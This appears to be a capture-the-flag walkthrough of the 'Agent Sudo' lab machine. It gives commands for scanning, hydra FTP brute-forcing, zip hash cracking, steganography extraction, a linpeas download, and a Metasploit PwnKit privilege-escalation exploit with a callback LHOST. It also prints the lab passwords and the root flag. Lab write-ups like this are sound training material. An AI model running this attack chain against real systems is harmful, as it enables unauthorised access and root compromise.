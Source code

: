 # Agent Sudo

--------------------------------------------------------------------

**TOOLS USED**: nmap, hydra, binwalk, john, steghide, linpeas, metasploit

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.207.89

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap --script vuln -sV -p- -oN nmap.txt 10.10.207.89
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
  21 (ftp vsftpd 3.0.3),<br>
  22 (ssh OpenSSH 7.6p1),<br>
  80 (http Apache httpd 2.4.29),<br>
  8797,<br>
  9649,<br>
  39873,<br>
  42206

### 2. Access Hidden Pages

![2.1](./imgs/2.1.png)

Use User-Agent Switcher plugin to change user agent to R<br>
https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/

![2.2](./imgs/2.2.png)

![2.3](./imgs/2.3.png)

Try all other letters in alphabet

Codename: C

![2.4](./imgs/2.4.png)

**USERNAME**: chris

chris has weak password so we can try to brute force his ftp login

### 3. Brute Force FTP

```
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.207.89
```

![3.1](./imgs/3.1.png)

**PASSWORD**: crystal

```
ftp chris@10.10.207.89
less To_agentJ.txt
```

![3.2](./imgs/3.2.png)

```
get cute-alien.jpg
get cutie.png
```

### 4. Crack ZIP Hash

```
binwalk cute-alien.jpg
binwalk cutie.png
```

![4.1](./imgs/4.1.png)

file hidden in cutie.png

```
binwalk cutie.png -e
```

![4.2](./imgs/4.2.png)

Convert zip to hash and then crack
```
zip2john 8702.zip > hash
john hash
```
![4.3](./imgs/4.3.png)

**PASSWORD**: alien

Open To_agentR.txt in zip file

![4.4](./imgs/4.4.png)

Use Cyber Chef to decode QXJlYTUx<br>
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UVhKbFlUVXg

![4.5](./imgs/4.5.png)

QXJlYTUx = Area51

### 5. Extract Stenography Data

```
steghide extract -sf cute-alien.jpg
```

![5.1](./imgs/5.1.png)

Agent J = James
**PASSWORD**: hackerrules!

```
ssh james@10.10.207.89
```

![5.2](./imgs/5.2.png)

### 6. Privilege Escalation

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh james@10.10.207.89:~/linpeas.sh
chmod +x linpeas.sh
./linpeas
```

![6.1](./imgs/6.1.png)

**VULNERABLE**: CVE-2021-4034, CVE-2022-2588 (Potential)

Exploit vulnerability
```
msfconsole
auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.207.89
set USERNAME james
set PASSWORD hackerrules!
exploit
search CVE-2021-4034
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set LHOST 10.6.40.234
set SESSION 1
exploit
```

![6.2](./imgs/6.2.png)

Agent R = DesKel

**ROOT FLAG**: b53a02f55b57d4439e3341834d70c062